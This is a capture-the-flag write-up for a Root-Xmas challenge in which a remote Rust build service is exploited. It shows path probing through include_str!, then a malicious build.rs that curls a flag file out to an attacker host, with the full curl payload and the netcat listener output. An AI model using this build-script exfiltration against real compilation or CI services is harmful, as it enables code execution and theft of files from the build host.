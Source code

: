 ```yaml
---
layout: Post
format: chall
title: Day 04 - Build And Drustroy
date: 2024-12-14
ctf: Root-Xmas
tags: [Rust, Compile-Time, RCE, RFI]
category: [Misc]
---
```

# Day 04 - Build And Drustroy

<a class="back-link" href="../../">< Go back</a>

## Description

I love rust because it's secure and fast. So I want people to do MOAR rust.

That's why I made a microservice to allow fast and easy remote code compilation.

Send my your code, I'll compile it, and I know for sure I'm safe!

```bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
# file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
```

Author : Laluka
<https://day4.challenges.xmas.root-me.org/>

all files in [resources/](./resources) were provided.

## Challenge

### Trying blind path traversal

Using `include_str()` we can determine if a folder exists:

```bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() {compile_error!(include_str!(\"/flag/\"));}"}' --output binary
# Build failed:    Compiling temp_build v0.1.0 (/tmp/.tmp8Nink3)
# error: couldn't read `/flag/`: Is a directory (os error 21)
#  --> src/main.rs:1:27
# 1 | fn main() {compile_error!(include_str!("/flag/"));}
#   |                           ^^^^^^^^^^^^^^^^^^^^^^
#   = note: this error originates in the macro `include_str` (in Nightly builds, run with -Z macro-backtrace for more info)
# error: could not compile `temp_build` (bin "temp_build") due to 1 previous error
```

For example here with `include_str!("/flag")` we can see that the `/flag` folder exists.

This actually doesn't lead much further, so let's try something else.

### Using compile-time macros to RCE

So the idea is to use the `compile_error!` macro to execute code at compile time. We still need a `main.rs` file, but let's also send a `build.rs`

`buid.rs`:

```rust
use std::process::Command;

fn main(){
  Command::new("curl")
    .args(&["-F",
            "file=@/flag/randomflaglolilolbigbisous.txt",
            "http://<IP>:8889"])
    .status()
    .unwrap();
}
```

This function becomes the following JSON mess:

```json
{
  "build.rs": "use std::process::Command;fn main(){Command::new(\"curl\").args(&[\"-F\",\"file=@/flag/randomflaglolilolbigbisous.txt\",\"http://<IP>:8889\"]).status().unwrap();}",
  "src/main.rs": "fn main(){}"
}
```

Which then gets one-lined and shoved inside the demo curl command given in the description of the challenge:

```bash
curl -sSk -X POST -H 'Content-Type: application/json' <https://day4.challenges.xmas.root-me.org/remote-build> -d '{"build.rs":"use std::process::Command;fn main(){Command::new(\"curl\").args(&[\"-F\",\"file=@/flag/randomflaglolilolbigbisous.txt\",\"http://<IP>:8889\"]).status().unwrap();}","src/main.rs":"fn main(){}"}' --output binary
```

Before running the payload, we start our listener, and then run it!

```bash
nc -lnvp 8889
# Listening on 0.0.0.0 8889
# Connection received on 163.172.68.42 52674
# POST / HTTP/1.1
# Host: <IP>:8889
# User-Agent: curl/7.88.1
# Accept: */*
# Content-Length: 238
# Content-Type: multipart/form-data; boundary=------------------------e473020fb62116fc

# --------------------------e473020fb62116fc
# Content-Disposition: form-data; name="file"; filename="randomflaglolilolbigbisous.txt"
# Content-Type: text/plain

# OffenSkillSaysHi2024RustAbuse

# --------------------------e473020fb62116fc--
```
